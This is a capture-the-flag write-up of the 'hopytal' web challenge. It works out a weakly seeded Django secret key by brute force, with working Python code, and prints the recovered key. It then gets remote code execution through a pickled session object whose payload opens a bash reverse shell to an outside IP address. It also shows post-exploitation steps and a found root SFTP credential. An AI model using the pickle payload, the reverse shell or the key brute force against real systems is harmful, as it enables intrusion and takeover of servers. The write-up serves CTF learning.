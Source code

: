 # hopytal

Do you like guessing? Love, even? Oh boy, do I have a challenge for you.

> This random secret key generator is used to sign covid certificates issued from the Hopytal laboratory. 
>
> Its behavior seems strange.. the alphabet must be printable.
>
> Valid 2G+ certificates may be  present on the server.
>
> Dirbusting is not needed to solve the challenge.

### 1. Key generator

First, you have to **guess** the algorithm used by the random
key generator. After trying and failing multiple times,
we guessed correctly:

```python
def deterministic_key(seed):
    CHARSET = string.digits + string.ascii_lowercase + string.ascii_uppercase + string.punctuation

    random.seed(seed)
    out = ""
    for i in range(50):
        out += random.choice(CHARSET)
    return out
```

There's nothing to suggest this in the description or on the webpage, so it was a long shot.

### 2. Django secret

Now, you have to **guess** that the django secret was generated
using the same brokem algorithm. But how to check it?

You can get a valid session ID by going to
`http://hopytal.insomnihack.ch/accounts/login/?next=/login` with invalid sessionid (Why? I don't know, it was discovered by web people).

```python
def get_session_id():
    r = requests.get("http://hopytal.insomnihack.ch/accounts/login/?next=/login", cookies={"sessionid":"asdasdasdasd"})
    o = r.cookies["sessionid"]
    return o
```

This will give a session ID like

```
gAUplC4:1nDwUa:bGjgxwu5sOyd8CZWX0jbejGIXjxylHQjQELbXWvoFf4
```

Of course with this you can also check if you have a valid secret,
using django's unsigner:

```python
def unsign(payload, key):
    key = force_bytes(key)

    salt = 'django.contrib.sessions.backends.signed_cookies'
    try:
        TimestampSigner(key=key,salt=salt, algorithm='sha256').unsign(payload, max_age=200000000)
        return True
    except BadSignature as e:
        return False
```

Finally you can combine this and brute-force the secret:

```python

SEED = int(time.time())
sid = get_session_id()
print(sid)

while True:
    SEED = SEED - 1
    if SEED % 1000 == 0:
        print(datetime.datetime.fromtimestamp(SEED))
    key = deterministic_key(SEED)
    if SEED % 1000 == 0:
        print(rrr)
    if unsign(sid, key):
        print(key, sid, unsign(sid, key))
        break
```

Warning - this will take a long time. Instead of brute-forcing 
maybe 2-3 days, I was close to giving up after 6 months.
Fortunately, one of our teammembers guessed that since

> This random secret key generator is used to sign covid certificates issued from the Hopytal laboratory. 

We should bruteforce on the day of first COVID case in Switzerland.
Yeah, that worked. For seed 1582585200 (Monday, February 24, 2020 23:00:00). The secret key is:

```
^vAmq'D*[i3,J+5S(XCUDd2yLlE<5tgtDY$$fVAl.}!sSocr8}
```

### 3. RCE

Now I'll save us some embarassment and won't describe the incorrect
guesses we made here.

Instead, we finally ~~observed~~ **guessed** that django uses
non-default serialisation engine:

```
>>> session_id = "gAV9lC4:1nDwjx:VyNh0cUKcNH49UZd6a_ePSAyGGm274XHwKqvHMCti7g"
>>> session_data = base64.b64decode("gAV9lC4==")
>>> pickle.loads(session_data)
{}
```

Yeah, pickle.

So we get a RCE with some nice python object:


```python
class RCE:
    def __reduce__(self):
        cmd = ('/bin/bash -c \'/bin/bash -i >& /dev/tcp/12.93.211.51/4446 0>&1\'')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
```

And... No, that's not over yet.

### 4. Where is the flag

Because now you have to **guess** where the flag is.

And the server had almost no binaries. Only bash and python.

So first, we had to upload a statically `busybox` (with python) and
chmod it (with python).

Then we downloaded the application source code, but there was
literally nothing interesting in there.

Then the server crashed for everyone (there was only one server,
and it was shared with everyone, and the challenge had RCE).

Then we found a file `/home/http_service/covidcert_2g+.pdf`, but had
no permission to read it (and no way to escalate).

Then we found a SFTP config
```
    "host": "172.21.2.105", 
    "user": "root",
    "password": "Pass.123", 
    "port": "22",
```
and after wasting a lot of time trying to connect there with
busybox, it turned out to be a false flag.

Then we found a flag `INS{yOu_g0t_th3_piCkl3}` in a random file in `/tmp`,
and it turned out to be a troll/joke by some other team
(the infra was shared).

Than we guessed, that maybe there'ss another internal network 
service that listens only on 127.0.0.1:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      6469/dropbearmulti
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      4794/dropbearmulti
tcp        0      0 127.0.0.1:8087          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      13/python
```

Yeah, that port 8087 is sus. We just uploded a statically compiled curl and...

```
/tmp/curl localhost:8087
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href=".bash_logout">.bash_logout</a></li>
<li><a href=".bashrc">.bashrc</a></li>
<li><a href=".profile">.profile</a></li>
<li><a href="covidcert_2g%2B.pdf">covidcert_2g+.pdf</a></li>
<li><a href="http.sh">http.sh</a></li>
</ul>
<hr>
</body>
```

And finally:

```
$ /tmp/curl localhost:8087/covidcert_2g%2B.pdf
/tmp/curl localhost:8087/covidcert_2g%2B.pdf
INS{I_4m_Pickl3_R1ck!_4nD_h3r3_1s_Ur_2G+_c0v1d_C3rT}
```

#### Parting thoughts

I have no idea, why this had to be so complicated. The first step
was pure clairvoyance, and a few last steps was just burning time.

But what do I know, usually I work on RE or Crypto. Webs
are just not my favourite category,

**I guess**.